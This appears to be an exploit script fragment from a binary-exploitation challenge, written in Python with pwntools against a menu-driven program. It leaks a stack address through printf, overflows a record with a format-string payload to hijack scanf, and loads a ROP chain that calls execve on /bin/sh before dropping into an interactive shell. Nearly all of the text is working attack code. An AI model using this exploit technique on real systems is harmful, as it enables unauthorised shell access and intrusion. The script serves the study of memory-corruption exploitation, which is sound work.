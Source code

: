 ```python

# invoke printf
r.sendline("4")
r.recvuntil("print: ")
r.sendline("1")
tmp = r.recvline()

ebp_main = int(tmp[-9:-1], 16)

print "ebp_main is %x\n" % ebp_main

#
# Stage 2, load rop chain
#

log.info("------Stage 2------")

# rop chain, execve("/bin//sh", argv, envp)
pop_edx_ecx_ebx = 0x8070330 # pop edx; pop ecx; pop ebx; ret
xor_eax = 0x8055b40 # xor eax, eax; ret
inc_eax = 0x807cd76 # inc eax; ret
int_0x80 = 0x8048ef6 # int 0x80

rop = ''
rop += p32(pop_edx_ecx_ebx)
rop += p32(ebp_main + 80)
rop += p32(ebp_main + 84)
rop += p32(ebp_main + 72)
rop += p32(xor_eax)
rop += p32(inc_eax) * 11
rop += p32(int_0x80)
rop += '/bin'
rop += '/sh\x00'
rop += '\x00\x00\x00\x00'
rop += p32(ebp_main + 72)
rop += '\x00\x00\x00\x00'

print "rop is %s" % rop

# edit 1st record
r.sendline("2")
r.sendline("0")
r.sendline("A" * 128 + '\xff\xff\xff\x0c' + '\xbc' * 8 + p32(scanf_addr) + "%18$s\x00")

# invoke scanf
r.sendline("4")
r.recvuntil("print: ")
r.sendline("1")
r.sendline(p32(scanf_addr) + "A" * 4 + rop)
# match with format string   ebp_main  ret

r.recvuntil("Choice: ")
r.sendline("5")
r.interactive()


```

